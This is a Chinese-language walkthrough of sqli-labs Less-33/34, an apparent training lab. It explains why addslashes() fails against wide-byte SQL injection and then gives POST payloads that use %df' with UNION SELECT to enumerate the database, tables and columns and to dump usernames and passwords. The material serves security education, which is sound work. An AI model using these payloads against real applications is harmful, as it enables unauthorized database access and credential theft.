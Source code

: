 `addslashes()` 函数返回在预定义字符之前添加反斜杠的字符串。

| 预定义字符 | 转义后 |
| :--------- | :----- |
| `\`        | `\\`   |
| `'`        | `\'`   |
| `"`        | `\"`   |

该函数可用于为存储在数据库中的字符串以及数据库查询语句准备字符串，和 Less-32 的函数功能是差不的，依旧可以使用宽字节进行注入。

> 注入天书：使用 addslashes(),我们需要将 mysql_query 设置为 binary 的方式，才能防御此漏洞

# Less-34

**宽字节post注入**

### 联合注入：

过滤方法依然和 Less-33 一致：

```php
$uname = addslashes($uname1);
$passwd= addslashes($passwd1);
```

只是由 GET 型变成了 POST 型

暴位置

```
uname=-admin%df' union select 1,2 --+&passwd=admin&submit=Submit
```

暴库和版本

```
uname=-admin%df' union select version(),database() --+&passwd=admin&submit=Submit
```

爆表

```
uname=-admin%df' union select 2,group_concat(table_name) from information_schema.tables where table_schema=database() --+&passwd=admin&submit=Submit
```

暴字段

**使用十六进制编码就可以绕过了''使用0x 代替，users 使用十六进制编码得到7573657273，构造为0x7573657273**

```
uname=-admin%df' union select 2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 --+&passwd=admin&submit=Submit
```

暴值

```
uname=-admin%df' union select 2,group_concat(username,0x3a,password) from users --+&passwd=admin&submit=Submit
```

